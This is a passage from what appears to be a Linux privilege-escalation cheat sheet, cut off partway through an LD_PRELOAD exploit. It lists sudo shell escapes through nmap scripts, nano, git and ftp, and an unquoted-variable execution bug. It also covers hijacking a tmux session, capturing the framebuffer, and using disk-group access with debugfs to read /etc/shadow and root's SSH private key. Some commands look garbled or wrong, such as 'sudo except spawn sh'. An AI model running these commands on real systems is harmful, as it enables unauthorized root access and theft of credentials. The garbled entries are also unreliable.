 - nmap
    ```
    echo "os.execute('/bin/sh')" > /tmp/shell.nse
    sudo nmap --script=/tmp/shell.nse
    ```
- scp: `sudo scp -S /path/yourscript x y`
- except: `sudo except spawn sh then sh`
- nano: `sudo nano -S /bin/bash`
  - type your command and hit CTRL+T
- git: `sudo git help status`
  - type: !/bin/bash
- gdb/ftp: `sudo ftp`
  - type : !/bin/sh

**Other** 

- File execution due to not using quotes
    ```bash
    # Files in `SLAPPER_FILES` list will get executed:
    for i in ${SLAPPER_FILES}; do
    if [ -f ${i} ]; then
        file_port=$file_port $i
        # Correction: file_port="$file_port $i"
        STATUS=1
    fi
    done
    ```
  - Ref: <https://www.exploit-db.com/exploits/33899>
- Connect to existing TMUX session: `tmux -S /.devs/dev_sess​`
- Screenshot
  - Need `video` group access
  - Resolution: `cat /sys/class/graphics/fb0/virtual_size`
  - Video feed: Open `​/dev/fb0​` in a image editor
    ```bash
    cp /dev/fb0 screenshot.raw
    iraw2png 1024 768 < screenshot.raw > screenshot.png

    fbdump
    ```
  - <https://www.kernel.org/doc/Documentation/fb/framebuffer.txt>
- Important Groups 
  - `shadow` - can read /etc/shadow
  - `disk` - raw access to files 
    - `debugfs /dev/sda1`
    - `debugfs: cat /root/.ssh/id_rsa`
    - `debugfs: cat /etc/shadow`
  - `video` - access to framebuffer
    - `cat /dev/fb0 > /tmp/screen.raw`
    - `cat /sys/class/graphics/fb0/virtual_size`
  - `root`
    - `find / -group root -perm -g=w 2>/dev/null`
- Privilege Escalation: <http://www.dankalia.com/tutor/01005/0100501004.htm>
  - Abusing users with '.' in their PATH
  - Shell Escape Sequences
  - IFS Exploit
  - LD_PRELOAD Exploit
    - cat /etc/ld.so.conf
    - cat /etc/ld.so.conf.d/*
    ```cpp
    #include <stdio.h>
    #include <sys/types.h> 
    #include <stdlib.h>